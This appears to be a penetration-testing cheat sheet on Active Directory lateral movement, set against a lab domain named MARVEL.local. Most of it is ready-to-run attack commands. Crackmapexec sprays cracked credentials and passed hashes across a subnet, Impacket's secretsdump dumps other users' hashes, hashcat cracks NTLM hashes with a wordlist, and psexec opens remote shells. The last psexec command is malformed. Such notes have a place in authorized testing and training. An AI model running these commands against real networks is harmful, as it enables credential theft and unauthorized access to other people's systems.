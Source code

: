 
Once we have a cracked password or hash, Use it to run in the whole network and sweep in all the systems uses this cracked credentials.

## Crackmapexec

```sh
# Install crackmapexec
> sudo apt install crackmapexec

# Run crackmapexec 
> crackmapexec smb <targetnetworkcidr:192.168.1.0/24> -u <username: fcastle> -d <domainname: MARVEL.local> -p <Password: Password1>
```

Use psexec script or psexec module in metasploit to pop a shell in to the new system after the crackmapexec script execution.

# Dumping Hashes

Once we have cracked credentials, we use the cracked credentials and try to dump other user hashes in all the machines which uses cracked creds.
## Secretsdump
```sh
# secrets dump is a part of Impacket Toolkit
> secretsdump.py <domain/crackedusername:password@newmachineIP: marvel/fcastle:Password1@192.168.2.1>
```

# Cracking Password Hashes

NOTE: NTLM password Hashes can be passed over network, but not NTLMv2.

## HASHCAT
```sh 
> hashcat -m 1000 <hashfile: hashes4.txt> <passwordfile: rockyou.txt> -O
```

# Pass The Hash

We can pass the hash instead of trying to crack it.

## Crackmapexec
```sh
> crackmapexec smb 192.168.1.0/24 -u "<Username>" -H "<PasswordHash>" --local-auth
```

## psexec.py 
```sh
> psexec.py <username: "frank castle":@<IP Address -hashes <LM:NT>  
```